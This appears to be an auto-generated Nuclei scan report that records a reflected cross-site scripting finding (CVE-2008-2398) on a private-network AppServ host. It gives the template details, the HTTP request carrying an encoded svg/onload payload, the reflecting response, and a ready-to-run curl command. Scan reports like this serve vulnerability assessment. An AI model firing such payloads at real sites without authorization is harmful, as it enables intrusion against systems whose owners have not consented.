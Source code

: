 ### AppServ Open Project 2.5.10 and earlier XSS (CVE-2008-2398) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2008-2398**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/index.php?appservlang=%3Csvg%2Fonload=confirm%28%27xss%27%29%3E

**Timestamp**: Wed Jun 8 20:22:26 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | AppServ Open Project 2.5.10 and earlier XSS |
| Authors | unstabl3 |
| Tags | cve, cve2008, xss |
| Severity | medium |
| Description | Cross-site scripting (XSS) vulnerability in index.php in AppServ Open Project 2.5.10 and earlier allows remote attackers to inject arbitrary web script or HTML via the appservlang parameter. |
| CVE-ID | [CVE-2008-2398](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-2398) |
| CVSS-Score | 0.00 |

**Request**
```http
GET /index.php?appservlang=%3Csvg%2Fonload=confirm%28%27xss%27%29%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 191
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/index.php?appservlang=<svg/onload=confirm('xss')></B> was not found.</BODY></HTML>
```

References: 
- https://exchange.xforce.ibmcloud.com/vulnerabilities/42546
- http://www.securityfocus.com/bid/29291
- http://secunia.com/advisories/30333
- http://securityreason.com/securityalert/3896

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36' 'http://192.168.198.179:8080/index.php?appservlang=%3Csvg%2Fonload=confirm%28%27xss%27%29%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)